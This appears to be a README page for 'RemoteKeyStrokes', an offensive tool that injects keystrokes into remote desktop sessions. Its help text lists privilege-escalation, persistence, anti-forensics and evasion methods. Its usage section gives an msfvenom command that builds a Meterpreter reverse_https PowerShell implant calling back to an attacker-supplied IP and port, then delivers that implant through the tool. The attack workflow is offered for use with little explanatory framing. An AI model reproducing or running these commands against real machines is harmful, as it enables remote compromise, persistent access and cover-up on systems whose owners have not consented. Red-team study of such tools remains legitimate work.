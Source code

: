 # RemoteKeyStrokes

## 01 - Help Menu

```
$ remotekeystrokes -h
Usage:
    remotekeystrokes <flags>

Flags:

COMMON OPTIONS:
    -c, --command <command | file>      Specify a command or a file contains commands
                                        to execute

    -p, --platform <operating_system>   Specify the operating system ("windows" is
                                        set by default if not specified)

    -w, --windowname <window_name>      Specify the window name to focus on the
                                        active window ("freerdp" is set by default
                                        if not specified)

    -h, --help                          Display this help message

UPLOAD FILES:
    -i, --input <input_file>            Specify the local input file to transfer
    -o, --output <output_file>          Specify the remote output file to transfer

METHODS:
    -m, --method <method>               Specify a method. For command execution method
                                        "none" is set by default if not specified.
                                        For file transfer "pwshb64" is set by default
                                        if not specified. Other available methods are:
                                        "elevate", "persistence", "antiforensics", and
                                        "mayhem"

    -s, --submethod <submethod>         Specify a submethod from a method (applies
                                        with -m flag)

    -a, --action <action>               Specify an action from a method and/or
                                        submethod (applies with -m and/or -s flag)

    -e, --evasion <evasion>             Specify an evasion method for uploading files
                                        (only works for "pwshb64")
```

## 02 - Usage

```
$ msfvenom -p windows/x64/meterpreter/reverse_https lhost=<IP> lport=<PORT> exitfunc=thread -f psh -o implant.ps1

$ remotekeystrokes -c "powershell.exe" -m dialogbox [-w <window_name>]

$ remotekeystrokes -c implant.ps1 [-w <window_name>]
```

---
## References

- [RemoteKeyStrokes](https://github.com/U53RW4R3/RemoteKeyStrokes)

- [Sending Keystrokes to Your (Virtual) Machines using X, Vnc , Rdp or Native ways](https://web.archive.org/web/20220712164101/https://www.jedi.be/blog/2010/08/29/sending-keystrokes-to-your-virtual-machines-using-X-vnc-rdp-or-native/)